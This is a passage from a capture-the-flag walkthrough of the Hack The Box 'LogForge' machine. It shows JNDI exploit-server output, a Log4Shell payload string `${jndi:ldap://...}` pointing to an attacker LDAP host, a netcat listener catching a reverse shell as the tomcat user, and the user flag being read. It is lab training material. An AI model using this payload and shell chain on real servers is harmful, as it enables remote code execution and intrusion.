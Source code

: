 ```bash
Target environment(Build in JDK 1.6 whose trustURLCodebase is true):
rmi://10.10.14.127:1099/ahq1tt
ldap://10.10.14.127:1389/ahq1tt
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.14.127:1099/gffi4x
ldap://10.10.14.127:1389/gffi4x
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.14.127:1099/lwtdju
ldap://10.10.14.127:1389/lwtdju
Target environment(Build in JDK 1.5 whose trustURLCodebase is true):
rmi://10.10.14.127:1099/aelly6
ldap://10.10.14.127:1389/aelly6
Target environment(Build in JDK - (BYPASS WITH GROOVY by @orangetw) whose trustURLCodebase is false and have Tomcat 8+ and Groovy in classpath):
rmi://10.10.14.127:1099/2spnfl

----------------------------Server Log----------------------------
2022-01-07 12:51:09 [JETTYSERVER]>> Listening on 10.10.14.127:8180
2022-01-07 12:51:10 [RMISERVER]  >> Listening on 10.10.14.127:1099
2022-01-07 12:51:11 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

We get options for various links to be used with our JNDI string, for the different JDK versions. We will assume that the target tomcat server uses v1.8 and use the following exploit string:

```bash
ldap://10.10.14.127:1389/gffi4x
```

Now start your listener 
And like we did earlier paste the payload in one of the boxes and send it -

Payload - `${jndi:ldap://10.10.14.127:1389/gffi4x}`

![[Pasted image 20220107130249.png]]

And we got our shell -

![[Pasted image 20220107130437.png]]

```bash
root@napster:~/Documents/HTB/LogForge# nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.127] from (UNKNOWN) [10.10.11.138] 57080
bash: cannot set terminal process group (840): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@LogForge:/var/lib/tomcat9$
```

# # `User` -

```bash
tomcat@LogForge:/var/lib/tomcat9$ ls
conf  lib  logs  policy  webapps  work
tomcat@LogForge:/var/lib/tomcat9$ cd /home/
tomcat@LogForge:/home$ ls
htb
tomcat@LogForge:/home$ cd htb
tomcat@LogForge:/home/htb$ ls
user.txt
tomcat@LogForge:/home/htb$ cat user.txt 
132ebd3c0492409e4d587b44562417b5
tomcat@LogForge:/home/htb$
```